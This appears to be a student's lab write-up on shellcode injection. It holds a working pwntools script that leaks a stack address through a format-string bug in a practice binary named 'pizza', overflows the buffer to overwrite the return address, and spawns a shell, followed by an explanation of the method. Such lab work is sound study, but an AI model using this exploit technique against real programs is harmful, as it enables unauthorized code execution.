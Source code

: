 # Week 10 - Shellcode Injection




This week we learned about how to use shellcode by finding and injecting it into vulnerable programs.




---

## Code

1) A code block containing your assembly instructions for your shellcode

```
#!/usr/bin/env python3

from pwn import *

elf = ELF("./pizza")

context(arch='amd64', os='linux', endian='little', word_size=64)

shellcode = asm(shellcraft.amd64.linux.sh())

input1 = b"Cantinflas %p %p %p %p %p %p %p"
input2 = b"10"

victim = process("./pizza")

print(str(victim.recvline(), "latin-1"))
victim.sendline(input1)

leak = str(victim.recvline(), "latin-1").split()[-1]
shellcode_place = int(leak, 16) + 0x20
print(str(victim.recvline(), "latin-1"))
victim.sendline(input2)

input3 = b"A" * 136 + p64(shellcode_place) + shellcode
print(str(victim.recvline(), "latin-1"))
print(str(victim.recvline(), "latin-1"))
print(str(victim.recvline(), "latin-1"))
print(str(victim.recvline(), "latin-1"))
print(str(victim.recvline(), "latin-1"))
print(str(victim.recvline(), "latin-1"))
victim.sendline(input3)

victim.interactive()
core = victim.corefile
rsp = core.rsp
rbp = core.rbp
rip = core.rip

top_of_stack = core.read(rsp, 8)
stack_1 = core.read(rsp + 8, 8)
stack_2 = core.read(rsp + 16, 8)

print(f"rsp = {hex(rsp)}")
print(f"rbp = {hex(rbp)}")
print(f"rip = {hex(rip)}")
print(f"Top of stack contains {hex(int.from_bytes(top_of_stack, 'little'))}")
print(f"Stack + 1 contains {hex(int.from_bytes(stack_1, 'little'))}")
print(f"Stack + 2 contains {hex(int.from_bytes(stack_2, 'little'))}")
print(f"Shellcode location {hex(shellcode_place)}")
```

This code injects some shellcode into a vulnerable executable called pizza. It starts by finding the location of the stack using a memory leak found in the first prompt. We found this when we experimented with inputs and found that %p leaked values some of which looked like addresses. It then uses the next input to write the shellcode on the stack and overwrite the return address. We found this vulnerability by noticing a stack overflow when we put a lot of input in the second prompt. And then by exploring the corefile we can see that the overflow is overwriting the return address. With more exploration we found the number of bytes needed to reach the address. This allows us to construct an input with our shellcode address replacing the return address. This then allows us to take over the program with our shellcode.